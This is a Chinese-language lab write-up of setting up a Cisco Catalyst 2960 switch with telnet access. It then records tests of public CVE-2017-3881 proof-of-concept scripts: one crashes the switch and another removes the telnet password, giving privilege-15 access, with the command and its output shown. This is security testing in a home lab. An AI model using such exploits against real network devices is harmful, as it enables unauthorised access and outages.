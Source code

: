 no shutdown一定要有，不然就没开启vlan1

然后配置一个端口给vlan1

```shell
Switch(config)#interface GigabitEthernet 0/1
Switch(config-if)#switchport access vlan 1
Switch(config-if)#end

Switch(config)#line vty 0 4     设置远程登录通道

Switch(config－line)#login

Switch(config－line)#password 111111 远程登录密码
```

这里也可能是配置Port-channel，网上说的是配置fastethernet，但是已经没有这个选项了.

配置完毕之后，给主机配置好静态的ip，然后连接上对应的port，就可以ping通了。

```shell
PS C:\Users\username> ping 192.168.1.1

正在 Ping 192.168.1.1 具有 32 字节的数据:
来自 192.168.1.1 的回复: 字节=32 时间=1ms TTL=255
来自 192.168.1.1 的回复: 字节=32 时间=4ms TTL=255
来自 192.168.1.1 的回复: 字节=32 时间=1ms TTL=255
来自 192.168.1.1 的回复: 字节=32 时间=1ms TTL=255

192.168.1.1 的 Ping 统计信息:
    数据包: 已发送 = 4，已接收 = 4，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 1ms，最长 = 4ms，平均 = 1ms
```

之后就是开启telnet服务。但是发现telnet好像是默认开启的，直接通过了telnet登录，密码就是cisco（之前配置的password）。

然后就是测试poc：针对catalyst 2960设备测试se1版本的poc，交换机直接crash了。下面是一部分的crash信息。

```shell
 01:50:36 UTC Mon Mar 1 1993: Unexpected exception to CPUvector 2000, PC = 14B8918
-Traceback= 14B8918 14B8CD0 15349AC 153438C 15347B0 A30548

Nested write_crashinfo call (2 times)
```

里面有pc的值，可能是偏移不对，然后也显示出了bin文件的入口点是0x3000，且系统重新加载的bin是se11，所以版本不一样，可能偏移就不一样。

然后测试了se11脚本，成功把telnet修改为无密码。

```shell
➜  PoC-CVE-2017-3881 python2 c2960-lanbasek9-m-12.2.55.se11.py 192.168.1.1 --set
[+] Connection OK
[+] Recieved bytes from telnet service: '\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18\xff\xfd\x1f'
[+] Sending cluster option
[+] Setting credless privilege 15 authentication
[+] All done
➜  PoC-CVE-2017-3881 telnet 192.168.1.1
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.

Switch#
```
